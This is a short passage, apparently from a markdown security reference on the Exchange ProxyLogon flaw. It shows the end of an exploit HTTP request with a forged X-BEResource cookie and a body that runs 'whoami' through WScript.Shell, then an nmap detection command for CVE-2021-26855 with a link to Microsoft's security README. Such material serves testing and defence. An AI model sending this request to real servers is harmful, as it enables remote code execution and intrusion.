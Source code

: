     Connection: close
    Cookie: X-BEResource=WIN-4J4L8GP7BF2/EWS/Exchange.asmx?a=~1942062522;
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 90

    code=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami").StdOut.ReadAll());
    ```
- [microsoft/CSS-Exchange/blob/main/Security/README.md](https://github.com/microsoft/CSS-Exchange/blob/main/Security/README.md)
    ```
    nmap -p <port> --script http-vuln-cve2021-26855 <target>
    ```
